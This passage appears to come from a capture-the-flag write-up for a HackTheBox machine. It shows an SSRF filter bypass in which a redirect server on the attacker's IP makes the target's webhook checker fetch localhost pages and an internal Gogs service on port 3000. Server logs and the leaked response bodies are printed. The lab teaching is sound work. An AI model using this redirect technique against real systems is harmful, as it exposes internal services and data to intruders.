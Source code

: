 This code defines three end points. A GET request to `/redirect` will return a redirect to `http://10.10.14.6/test`. a GET to `/test` will return “Hello!”. If that works, there will be a POST to `/hook`, which will print success and the body.

When I run this, I get:

```
10.10.11.176 - - [06/Jan/2023 21:15:11] "GET /redirect HTTP/1.0" 302 -
10.10.11.176 - - [06/Jan/2023 21:15:11] "GET /test HTTP/1.0" 200 -
Got Hook!
{'webhookUrl': 'http://10.10.14.6/hook', 'monitoredUrl': 'http://10.10.14.6/redirect', 'health': 'up', 'body': 'Hello!', 'message': 'HTTP/1.0 302 FOUND', 'headers': {'Content-Type': 'text/html; charset=utf-8', 'Content-Length': '6', 'Location': 'http://10.10.14.6/test', 'Server': 'Werkzeug/2.0.2 Python/3.8.10', 'Date': 'Fri, 06 Jan 2023 21:15:11 GMT'}}
10.10.11.176 - - [06/Jan/2023 21:15:11] "POST /hook HTTP/1.1" 200 -

```

It worked! It read my different page and returned by body after a redirect.

#### Redirect to Health

I still haven’t proven that this won’t get blocked if I try to reach `health.htb`. I’ll update the server to redirect to `http://127.0.0.1/`, and submit expecting to get `http://health.htb`:

On hitting test, there’s a GET, and then a POST:

```
10.10.11.176 - - [06/Jan/2023 21:18:53] "POST /hook HTTP/1.1" 200 -                                                     10.10.11.176 - - [06/Jan/2023 21:20:30] "GET /redirect?r=http://127.0.0.1 HTTP/1.0" 302 -                               Got Hook!                                                                                                               {'webhookUrl': 'http://10.10.14.6/hook', 'monitoredUrl': 'http://10.10.14.6/redirect?r=http://127.0.0.1', 'health': 'up', 'body': '<!DOCTYPE html>\n<html lang="en">\n<head>\n    <meta charset="UTF-8">\n    <meta name="viewport" content="width=device-width, initial-scale=1.0">\n
...[snip]...
expires=Fri, 06-Jan-2023 23:20:30 GMT; Max-Age=7200; path=/; httponly; samesite=lax', 'Vary': 'Accept-Encoding', 'Connection': 'close'}}
10.10.11.176 - - [06/Jan/2023 21:20:30] "POST /hook HTTP/1.1" 200 -

```

That seems to be the body of `health.htb`, which means I’ve bypassed the filter.

#### Read Port 3000

I’ll update and submit with the redirect pointing to `http://127.0.0.1:3000`, and I get a hit. There’s a ton of HTML, but right away I can see the title says “Gogs”:

![image-20230106162339340](https://0xdfimages.gitlab.io/img/image-20230106162339340.png)

Towards the footer, there’s a version:

![image-20230106162431868](https://0xdfimages.gitlab.io/img/image-20230106162431868.png)

### SQL Injection
